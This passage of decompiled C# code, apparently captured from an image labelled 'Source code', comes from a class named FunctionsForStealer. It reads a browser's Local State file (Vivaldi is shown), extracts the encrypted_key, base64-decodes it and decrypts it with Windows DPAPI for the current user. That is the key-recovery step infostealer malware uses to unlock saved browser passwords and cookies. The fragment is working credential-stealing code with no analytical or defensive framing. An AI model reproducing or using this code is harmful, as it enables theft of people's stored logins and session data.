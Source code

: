 ```csharp
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__3.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__3.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001F RID: 31 RVA: 0x000034B4 File Offset: 0x000016B4
			public static byte[] GetKeyVivaldi()
			{
				string text = Variables.localappdata + "\\Vivaldi\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__4.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__4.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
```